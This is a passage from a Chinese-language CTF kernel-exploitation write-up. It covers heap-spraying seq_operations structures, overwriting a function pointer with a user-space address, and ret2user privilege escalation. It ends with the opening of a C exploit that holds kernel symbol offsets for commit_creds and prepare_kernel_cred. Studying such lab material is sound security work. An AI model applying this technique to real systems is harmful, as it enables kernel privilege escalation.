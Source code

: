 因为本题除了 kaslr 啥都没开，所以可以直接访问到用户的数据，可以直接将next改成 用户态malloc 出来的地址。

随后堆喷 seq_operations 结构体，此结构体为 0x20 大小，并且其四个指针之一在 read 的时候会调用到，之后再 save 那个错误的堆块，此时会申请 0x20 大小的堆块，并且必会在 seq_operations 结构体的上方，因此就会将某一 seq_operations 结构体的指针给覆盖，覆盖成用户态的函数即可。

此时已经在 某个 seq_operations 的上方覆盖成了 0x61，下一步 memcpy 就会复制到那个 seq_operations 处了

![image-20221024141326510](%E6%95%99%E4%BD%A0%E5%AD%A6%E5%86%85%E6%A0%B8-tty,seq/image-20221024141326510.png)

![image-20221024141516630](%E6%95%99%E4%BD%A0%E5%AD%A6%E5%86%85%E6%A0%B8-tty,seq/image-20221024141516630.png)

最后就是喜闻乐见的 ret2user 了

```c
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <errno.h>
#include <signal.h>
#include <sys/syscall.h>
#include <stdint.h>
#include <sys/prctl.h>
#include <linux/userfaultfd.h>
#include <poll.h>
#include <assert.h>

size_t vmlinux_base = 0xffffffff81000000;
size_t commit_creds = 0x8c140;
size_t prepare_kernel_cred = 0x8c580;
size_t user_cs, user_ss, user_rflags, user_sp , user_rip;
int fd = 0;
```